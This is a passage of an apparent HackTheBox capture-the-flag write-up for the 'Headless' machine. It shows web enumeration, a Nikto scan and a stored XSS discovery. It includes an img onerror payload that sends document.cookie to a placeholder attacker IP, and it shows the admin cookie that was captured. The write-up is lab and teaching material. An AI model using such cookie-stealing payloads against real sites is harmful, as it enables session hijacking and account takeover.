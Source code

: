 **Results:**

- `/support` (Status: 200, feedback form page)
- `/dashboard` (Status: 403, unauthorized access)

The `/support` page hosted the feedback form, while `/dashboard` suggested an admin interface requiring elevated privileges.

### Nikto Scan

To gather additional web server details, Nikto was used:

```bash
nikto -h http://headless.htb:5000
```

**Results:**

- Confirmed Werkzeug 2.2.2 and Python 3.11.2.
- Noted the `is_admin` cookie was set without the `HttpOnly` flag, making it accessible to JavaScript and vulnerable to XSS-based theft.

### XSS Vulnerability Discovery

To test for Cross-Site Scripting (XSS), a payload was submitted in the feedback form’s comment field:

```html
<script>alert('XSS')</script>
```

![](Pasted%20image%2020251006132837.png)

The server responded with this warning saying "Hacking Attempt Detected".  
I noticed the warning included the original `HTTP` `POST` request data.  

 - Next, I injected this `HTML` into the `User-Agent` field.

```html
<img src=x onerror=fetch('http://<attacker_ip>/?c='+document.cookie);>
```

- Started an HTTP server on the attacker machine: `python3 -m http.server 80`
- Submitted the payload via the `/support` form.
- The server logged a request containing the `is_admin` cookie: `InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs`.

This confirmed a **stored XSS vulnerability**, as the feedback was rendered unsanitized in the admin dashboard, allowing JavaScript execution in the admin’s context.

---

## Web Exploitation

### Cookie Manipulation

Decoding the `is_admin` cookie:

